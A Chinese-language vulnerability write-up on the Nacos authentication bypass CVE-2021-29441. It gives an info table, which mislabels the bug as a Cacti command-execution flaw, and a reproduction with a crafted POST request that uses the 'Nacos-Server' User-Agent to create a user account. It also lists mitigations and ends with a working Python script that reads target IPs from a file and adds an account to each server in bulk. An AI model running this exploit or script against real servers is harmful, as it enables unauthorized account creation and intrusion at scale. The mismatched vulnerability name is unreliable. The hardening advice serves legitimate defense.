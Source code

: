 # 0X00 漏洞信息
Nacos是 Dynamic Naming and Configuration Service的首字母简称，一个更易于构建云原生应用的动态服务发现、配置管理和服务管理平台。Nacos 提供了一组简单易用的特性集，帮助您快速实现动态服务发现、服务配置、服务元数据及流量管理.Nacos是阿里开放的一款中间件，它主要提供三种功能：持久化节点注册，非持久化节点注册和配置管理。

当 Nacos在执行身份验证和授权操作时确定请求的用户代理是否为“Nacos-Server”时，由于简单的配置，通过利用此未经授权的漏洞，攻击者直接执行nacos的相关api接口进行漏洞利用。




# 0X01 漏洞概述
| 漏洞名称  | Cacti任意命令执行漏洞                           |
| --------- | ----------------------------------------------- |
| 漏洞等级  | 高危                                            |
| CVE编号   | CVE-2021-29441                                  |
| CNVD编号  | 暂无                                            |
| CNNVD编号 | 暂无                                            |
| 其他编号  | 暂无                                            |
| 披露时间  | 2021-04-27                                      |
| 分数      | 9.8                                             |
| CVSS      | 3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H         |
| 披露链接  | https://nvd.nist.gov/vuln/detail/CVE-2021-29441 |



# 0X02 影响范围

nacos <=2.0.0-ALPHA.1



# 0X03 环境搭建

无




# 0X04 代码审计
无



# 0X05 漏洞复现

1、访问下面连接

```
#pageNo表示第几页，pageSize表示一页显示几个账号，可以根据需要修改，8848是Nacos默认端口
http://YOUIP:8848/nacos/v1/auth/users?pageNo=1&pageSize=2
```

默认配置下就可以直接显示服务下的账号信息

![image-20240617170012660](https://cdn.jsdelivr.net/gh/xmtxsec/picture/imgl/202406171700116.png)

这里可以正常显示的话就表示漏洞可以正常利用



2、构造数据包

```
POST /nacos/v1/auth/users?username=lym&password=Talent@123 HTTP/1.1
Host: YOUIP:8848
User-Agent: Nacos-Server
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Content-Length: 19
```



- 其中username和password即为新增的账号密码
- user-Agent需要设置为Nacos-Server
- 如果返回"create user ok!" 即利用成功



![img](https://cdn.jsdelivr.net/gh/xmtxsec/picture/imgl/202406171702655.png)




# 0X06 解决方案
1、升级到最新版本的nacos

2、修改配置文件application.properties

```
nacos.core.auth.enabled=true
nacos.core.auth.system.type=nacos
```

3、代码升级，分别在 `spring.cloud.nacos.discovery`和`spring.cloud.nacos.config`中添加你安装nacos的账号和密码

![img](https://cdn.jsdelivr.net/gh/xmtxsec/picture/imgl/202406171706852.png)



修改`nacos.core.auth.server.identity.key`和`nacos.core.auth.server.identity.value`值为自定义值

![img](https://cdn.jsdelivr.net/gh/xmtxsec/picture/imgl/202406171706092.png)



# 0X07 POC

nacos.py

```python
# coding=utf-8


import time
import requests
import urllib3


urllib3.disable_warnings()
headers = {
#    'User-Agent': "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.1916.47 Safari/537.36",
    'User-Agent': "Nacos-Server",
    "Accept-Encoding": "gzip, deflate",
}

def nacos(ip):
    try:
        check_url = '/nacos/v1/auth/users'
        exp_data = {
            "username": "ahai1234",
            "password": "ahai1234",
        }
        check_url2 = ip + '/nacos/v1/auth/users?pageNo=1&pageSize=100'
        poc_url = ip + check_url
        response = requests.post(url=poc_url, headers=headers, timeout=10, verify=False, data=exp_data)
        res_data = response.text
        #print(res_data)
        if "already exist!" in res_data:
            print('用户名ahai123已经存在', check_url2)
        elif "create user ok!" in res_data:
            res = requests.get(url=check_url2, headers=headers, timeout=10, verify=False)
            if "ahai123" in res.text:
               print(ip)
               print("添加用户名成功")
        else:
             print(ip)
             print("漏洞利用失败")
    except:
        print(ip) 
        print("连接超时！")


def get_url():
    with open('ip.txt', 'r') as f:	#ip.txt为nacos的ip地址
        ips = f.readlines()
        for ip in ips:
            ip = ip.strip()
            #print(ip)
            if ip[0:5] == 'https':
                ip = ip
            elif ip[0:4] == 'http':
                ip = ip
            else:
                ip = 'http://' + ip
            nacos(ip)


if __name__ == "__main__":
    get_url()


```

![image-20240617171351125](https://cdn.jsdelivr.net/gh/xmtxsec/picture/imgl/202406171713168.png)